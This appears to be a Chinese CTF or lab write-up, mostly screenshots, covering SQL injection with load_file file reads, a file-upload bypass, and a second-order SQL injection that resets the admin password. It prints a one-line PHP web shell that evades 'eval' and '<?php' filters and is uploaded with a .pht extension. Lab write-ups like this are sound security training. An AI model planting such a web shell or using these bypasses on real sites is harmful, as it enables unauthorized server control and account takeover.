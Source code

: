![image-20241125221813133](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125221813133.png)



双写绕过，访问不存在页面

![](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125222051121.png)

注入点为2，3，4

直接使用load_file读文件

![image-20241125222819510](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125222819510.png)

### *34212 文件上传

![image-20241125223416622](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125223416622.png)

验证上传逻辑，发现不知道上传目录

![image-20241125223651152](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125223651152.png)

使用御剑扫描一下这个站点

![image-20241125224208347](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125224208347.png)

验证其上传路径为   http://11.1.10.12:34212/upload/picshell.jpg

抓包重放进行逻辑验证

![image-20241125224906339](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125224906339.png)

发现对`<?php`和`eval`都有过滤

使用如下木马：

<script language="php">@Eval($_POST['x']);</script>

又发现其对后缀也有过滤，使用pht上传

![image-20241125225221960](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125225221960.png)

访问http://11.1.10.12:34212/upload/picshell.pht

之后蚁剑连接可得key

## 34021 - 34025、34214、34223、34234

### 34021 二阶sql注入

![image-20241126000703432](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126000703432.png)

![image-20241126000957330](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126000957330.png)

注释符后可以注册任意格式的账号，接着对admin'#aaa账户进行密码重置，即重置admin密码进行登入
